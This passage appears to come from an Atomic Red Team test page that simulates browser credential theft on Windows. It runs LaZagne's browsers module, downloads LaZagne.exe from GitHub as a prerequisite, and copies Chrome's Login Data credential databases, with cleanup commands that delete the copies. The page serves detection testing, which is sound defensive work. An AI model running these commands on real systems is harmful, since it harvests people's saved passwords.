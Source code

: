 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{lazagne_path}" browsers
```




#### Dependencies:  Run with `powershell`!
##### Description: LaZagne.exe must exist on disk at specified location (#{lazagne_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{lazagne_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{lazagne_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe" -OutFile "#{lazagne_path}"
```




<br/>
<br/>

## Atomic Test #4 - Simulating access to Chrome Login Data
Simulates an adversary accessing encrypted credentials from Google Chrome Login database.

**Supported Platforms:** Windows


**auto_generated_guid:** 3d111226-d09a-4911-8715-fe11664f960d






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data For Account" -Force -ErrorAction Ignore
```
